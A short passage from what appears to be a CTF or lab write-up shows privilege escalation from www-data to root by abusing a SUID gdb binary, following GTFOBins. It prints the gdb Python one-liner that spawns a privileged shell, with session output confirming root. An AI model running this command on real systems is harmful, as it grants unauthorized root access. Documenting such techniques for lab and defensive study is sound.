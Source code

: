 Reading from https://gtfobins.github.io/gtfobins/gdb/#suid , we can see that to exploit this we can execute the command to run GDB as root and run a bash shell.

```bash
$ gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
GNU gdb (Debian 8.2.1-2+b3) 8.2.1
Copyright (C) 2018 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
# whoami
whoami
root
# id
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)

```

Rooted!
